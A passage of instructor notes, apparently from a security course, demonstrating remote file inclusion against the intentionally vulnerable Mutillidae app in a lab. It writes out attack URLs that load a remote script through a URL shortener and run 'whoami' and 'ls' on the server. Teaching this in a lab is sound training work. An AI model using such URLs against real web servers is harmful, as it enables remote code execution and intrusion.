    - Press Enter and explain that, similar to the LFI demonstration, nothing happens, as expected. We need to add a parameter to the URL to run command-line scripts. This works a little differently than the LFI script.
  
   - To run a command-line script, we have to add a second parameter with an ampersand `&`.

     - For example, if we want to run the `whoami` command, we add the second parameter as follows: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=whoami>.
  
        ![The new URL features the first and second parameters.](Images/RFI7.png)

   - Run the command. The webpage displays the results of the `whoami` command run against the web server: `www-data`.
  
      ![The Mutillidae webpage features text that says "www-data www-data."](Images/RFI8.png) 
 
   - Run `ls` to show that almost any command-line command can be run: <http://192.168.13.27/mutillidae/index.php?page=https://tinyurl.com/y498epmz&cmd=ls>.
 
#### Demonstration Summary 
 
Summarize that being able to successfully change the parameter of the URL to point to a remote script and then subsequently running this script indicates that this web application is vulnerable to **RFI**.

- Also note that the ability to arbitrarily execute command-line code with the remote script means this web application is also vulnerable to **RCE**.

#### Real-World Challenges

**Limitations of the RFI attack:** To conduct this attack successfully, the web server not only needs to run PHP but also needs to enable a configuration setting to allow external URLs. Many web servers that run PHP do not have this configuration enabled.

**Variety of attacks:** The demonstration illustrated using one type of malicious script and two command-line commands.
  